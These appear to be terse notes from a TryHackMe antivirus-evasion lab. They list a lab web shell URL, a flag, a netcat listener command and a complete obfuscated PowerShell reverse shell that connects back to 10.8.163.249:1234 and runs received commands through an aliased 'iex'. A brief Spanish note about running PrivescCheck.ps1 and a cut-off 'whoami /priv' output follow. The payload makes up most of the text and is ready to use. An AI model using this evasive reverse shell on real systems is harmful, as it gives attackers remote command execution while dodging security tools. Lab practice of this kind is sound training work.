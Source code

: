 



http://10.201.71.91:8000/asdasdadasdjakjdnsdfsdfs.php



Flag: THM{1010_EVASION_LOCAL_USER}





-------------------------------------------------------------------------------


- C:\xampp\htdocs\uploads\



Get-Content C:\xampp\htdocs\uploads\vulnerable.ps1


sudo nc -lvnp 4455



Set-Alias -Name K -Value Out-String
Set-Alias -Name nothingHere -Value iex
$BT = New-Object "S`y`stem.Net.Sockets.T`CPCl`ient"('10.8.163.249',1234);
$replace = $BT.GetStream();
[byte[]]$B = 0..(32768*2-1)|%{0};
$B = ([text.encoding]::UTF8).GetBytes("(c) Microsoft Corporation. All rights reserved.`n`n")
$replace.Write($B,0,$B.Length)
$B = ([text.encoding]::ASCII).GetBytes((Get-Location).Path + '>')
$replace.Write($B,0,$B.Length)
[byte[]]$int = 0..(10000+55535)|%{0};
while(($i = $replace.Read($int, 0, $int.Length)) -ne 0){;
$ROM = [text.encoding]::ASCII.GetString($int,0, $i);
$I = (nothingHere $ROM 2>&1 | K );
$I2  = $I + (pwd).Path + '> ';
$U = [text.encoding]::ASCII.GetBytes($I2);
$replace.Write($U,0,$U.Length);
$replace.Flush()};
$BT.Close()










---------------------------------

Subir y ejecutar PrivescCheck.ps1:





SHELL> whoami /priv

PRIVILEGES INFORMATION
----------------------
